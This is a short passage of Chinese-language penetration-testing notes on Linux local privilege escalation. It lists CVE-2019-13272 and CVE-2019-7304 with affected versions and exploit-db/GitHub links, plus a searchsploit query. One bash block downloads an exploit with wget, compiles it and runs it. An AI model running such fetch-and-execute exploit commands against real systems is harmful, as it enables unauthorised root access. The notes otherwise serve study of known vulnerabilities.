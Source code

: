   一些开发的元数据没有保存在本地，如果要访问他们，需要联网搜索

  ```
  searchsploit eternalblue -w
  ```

### 脏牛提权

### CVE-2019-13272

> Linux本地提权
>
> 漏洞范围：
>
> 4.10 < linux内核版本 < 5.1.17
>
> exploitdb：
>
> https://www.exploit-db.com/exploits/47163
>
> 利用exp：
>
> https://www.exploit-db.com/download/47163

```bash
wget https://www.exploit-db.com/download/47163 -O exp.c
gcc exp.c –o exp
./exp
```

### CVE-2019-7304

> Linux包管理器snap本地提权漏洞
>
> Ubuntu版本范围：
>
> Ubuntu 18.10
>
> Ubuntu 18.04 LTS
>
> Ubuntu 16.04 LTS
>
> Ubuntu 14.04 LTS
>
> snap版本范围：
>
> 2.28 < snapd < 2.37

> https://github.com/initstring/dirty_sock
>
> https://www.anquanke.com/post/id/170985

> 漏洞利用
>
> https://github.com/initstring/dirty_sock
